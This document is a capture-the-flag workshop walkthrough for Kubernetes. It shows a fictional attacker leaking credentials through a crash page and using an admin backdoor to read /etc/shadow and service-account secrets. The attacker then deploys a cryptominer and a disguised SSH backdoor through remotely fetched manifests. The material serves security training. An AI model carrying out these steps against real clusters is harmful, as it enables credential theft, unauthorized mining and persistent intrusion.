

Free Compute: Scenario 1 Attack¶
Warning¶
In these Attack scenarios, we're going to be doing a lot of things that can be crimes if done without permission. Today, you have permission to perform these kinds of attacks against your assigned training environment.
In the real world, use good judgment. Don't hurt people, don't get yourself in trouble. Only perform security assessments against your own systems, or with written permission from the owners.
Backstory¶
Name: Red¶
- Opportunist
- Easy money via crypto-mining
- Uses automated scans of web IP space looking for known exploits and vulnerabilities
Motivations¶
- Red has been mining
bitcoinero(a fake cryptocurrency) for a few months now, and it's starting to gain some value - Red is looking for free-to-them compute on which to run miners
- Red purchased some leaked credentials from the dark web
Thinking In Graphs¶
Attacking a system is a problem-solving process similar to troubleshooting: Red begins with a goal (deploy an unauthorized cryptominer) but doesn't really know what resources are available to achieve that goal. They will have to start with what little they already know, perform tests to learn more, and develop a plan. The plan is ever-evolving as new information is gleaned.
The general process looks like this:

-
Study
In this phase, use enumeration tools to start from the information you have, and get more information. Which tools to use will depend on the situation. For example,
nmapis commonly used to enumerate IP networks.nikto,burp, andsqlmapare interesting ways to learn more about web applications. Windows and Linux administrative utilities such asuname,winver, andnetstatprovide a wealth of information about their host OSes. -
Plan
In this phase, think about everything you currently know, and what actions you can take based on that knowledge. If you think you can do something that will help you get closer to your goal, move onto Attack Something. Otherwise, go back to Study and try to learn more.
-
Attack Something
In this phase, you take some action in the hope of getting closer to your goal. This may be running an exploit tool against a buggy piece of software, launching some kind of credential-guessing utility, or even just running a system command like kubectl apply. Your success or failure will teach you more about your target and situation. Move on to Study, Persist, or Win, as appropriate.
-
Persist
In this optional phase, you take some action to make it easier to re-enter the system or network at a later time. Common options are running a malware Remote Access Tool such as Meterpreter, creating new accounts for later use, and stealing passwords.
-
Win
Eventually, you may achieve your goals. Congratulations! Now you can stop hacking and begin dreaming about your next goal.
Getting Access¶
Red team found an app online and ran a dictionary attack against it. Some valid paths were /crash and /admin. Let's try to find an exploit!
To find the compromised website, run the following:
./scenario_1/attack-1-helper.sh
In your browser, go to the first URL provided (e.g. http://<HACKED_IP>:8080/)
Hmm. "Nothing to see here."? They're probably wrong.
Let's try the Admin page: http://<HACKED_IP>:8080/admin. Hmm. It's asking for credentials. Since it was a browser popup (instead of an in-app request), it probably uses Basic Auth.
Let's try the Crash page: http://<HACKED_IP>:8080/crash
Looks like we've crashed the app! And it prints out all of the environment variables. Oh goodie! There are two values that seem to be especially interesting (AUTH_USERNAME and AUTH_PASSWORD). Let's go back to the Admin page and try those.
Go back to the Admin page: http://<HACKED_IP>:8080/admin and enter the credentials from the crash page.
And we're in! Looks like Frank left a backdoor to run some commands. Let's see what we can learn.
Click into the "Run a command" textbox and then try each of the commands below:
id
uname -a
cat /etc/os-release
ps -ef
df -h
cat /etc/shadow
ls -l /
ls -l $PWD
echo $PATH
Can we add files to the default PATH?
touch /usr/local/bin/foo && ls /usr/local/bin/
Now let's inspect our environment:
env
This tells us two things:
- We are in a container
- It's managed by Kubernetes
Let's poke around some more and see if we can find any credentials.
ls /var/run/secrets/kubernetes.io/serviceaccount
Deploy Bitcoin miner + backdoor¶
We have typical Kubernetes-related environment variables defined, and we have anonymous access to some parts of the Kubernetes API. We can see that the Kubernetes version is modern and supported -- but there's still hope if the Kubernetes security configuration is sloppy. Let's check for that next:
Note
This may take a minute or two. Watch the page progress in the browser tab.
cd /usr/local/bin; curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod 555 kubectl; kubectl version
kubectl get all
kubectl get all -A
kubectl auth can-i --list
kubectl auth can-i create pods
It looks like we have hit the jackpot! Let's see if we can start mining some crypto.
kubectl apply -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/bitcoinero.yaml; sleep 10; kubectl get pods -n dev
We can see the bitcoinero pod running, starting to generate a small but steady stream of cryptocurrency. But we need to take a few more steps to protect our access to this lucrative opportunity. Let's deploy an SSH server on the cluster to give us a backdoor in case we lose our current access later.
kubectl apply -n kube-system -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/backdoor.yaml
Wait ~10 seconds for the Public IP to be exposed
kubectl get svc metrics-server-service -n kube-system -o table -o jsonpath='{.status.loadBalancer.ingress[0].ip}'
Our Bitcoin miner is now deployed and we've also deployed an SSH backdoor. Mission Accomplished.